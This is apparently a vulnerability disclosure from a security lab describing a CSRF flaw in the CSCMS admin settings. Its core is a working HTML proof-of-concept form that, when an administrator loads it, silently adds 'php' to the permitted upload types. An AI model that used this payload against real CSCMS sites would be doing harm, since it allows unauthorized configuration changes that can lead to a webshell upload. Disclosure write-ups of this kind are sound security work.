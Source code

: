 # CSCMS_CSRF
-----
### Code analysis
Vulnerability code is located ` \upload\plugins\sys\admin\Setting.php` 225 to 286 lines
![CSRF1](https://github.com/AvaterXXX/CScms/blob/master/images/CSRF1.png)
![CSRF2](https://github.com/AvaterXXX/CScms/blob/master/images/CSRF2.png)
There is no CSRF defense set, so there is a vulnerability

### POC
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://IP/admin.php/setting/ftp_save" method="POST">
      <input type="hidden" name="UP&#95;Mode" value="1" />
      <input type="hidden" name="UP&#95;Size" value="20480" />
      <input type="hidden" name="UP&#95;Type" value="mp3&#124;mp4&#124;jpg&#124;gif&#124;png&#124;txt&#124;zip&#124;rar&#124;php" />
      <input type="hidden" name="UP&#95;Url" value="" />
      <input type="hidden" name="UP&#95;Pan" value="" />
      <input type="hidden" name="FTP&#95;Url" value="http&#58;&#47;&#47;demo&#46;chshcms&#46;com&#47;" />
      <input type="hidden" name="FTP&#95;Server" value="127&#46;0&#46;0&#46;1" />
      <input type="hidden" name="FTP&#95;Port" value="21" />
      <input type="hidden" name="FTP&#95;Dir" value="" />
      <input type="hidden" name="FTP&#95;Name" value="111" />
      <input type="hidden" name="FTP&#95;Pass" value="111&#42;&#42;&#42;&#42;&#42;&#42;" />
      <input type="hidden" name="FTP&#95;Ive" value="1" />
      <input type="hidden" name="CS&#95;Qn&#95;Bk" value="" />
      <input type="hidden" name="CS&#95;Qn&#95;Ak" value="" />
      <input type="hidden" name="CS&#95;Qn&#95;Sk" value="" />
      <input type="hidden" name="CS&#95;Qn&#95;Url" value="" />
      <input type="hidden" name="CS&#95;Os&#95;Bk" value="" />
      <input type="hidden" name="CS&#95;Os&#95;Ai" value="" />
      <input type="hidden" name="CS&#95;Os&#95;Ak" value="" />
      <input type="hidden" name="CS&#95;Upy&#95;Bucket" value="" />
      <input type="hidden" name="CS&#95;Upy&#95;Name" value="" />
      <input type="hidden" name="CS&#95;Upy&#95;Pwd" value="" />
      <input type="hidden" name="CS&#95;Upy&#95;Url" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

### Vulnerability display
PHP did not exist at the beginning
![CSRF3](https://github.com/AvaterXXX/CScms/blob/master/images/CSRF3.png)
USE POC
![CSRF4](https://github.com/AvaterXXX/CScms/blob/master/images/CSRF4.png)
PHP add success！
![CSRF5](https://github.com/AvaterXXX/CScms/blob/master/images/CSRF5.png)

#### Vulnerabilities are owned by Patec HanGuang Lab
#### ` https://www.patec.cn/`

